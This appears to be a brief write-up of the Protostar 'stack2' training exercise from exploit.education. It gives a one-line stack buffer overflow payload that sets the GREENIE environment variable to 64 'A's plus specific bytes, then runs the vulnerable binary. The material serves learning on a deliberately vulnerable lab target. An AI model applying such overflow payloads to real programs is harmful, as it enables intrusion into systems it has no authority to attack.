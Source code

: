 ```
TL;DR -> `export GREENIE=$(python -c "print 'A'*64 + '\x0a\x0d\x0a\x0d'") && ./stack2`
```

# Stack2

URL: https://exploit.education/protostar/stack-two/

This level is same as `stack1` (checkout that writeup), the only difference is, we have to set payload in env variable. That can be easily done using `export $VARIABLE=value`

In our case, the payload will be: `export GREENIE=$(python -c "print 'A'*64 + '\x0a\x0d\x0a\x0d'")`

---

One liner solution:
`export GREENIE=$(python -c "print 'A'*64 + '\x0a\x0d\x0a\x0d'") && ./stack2`
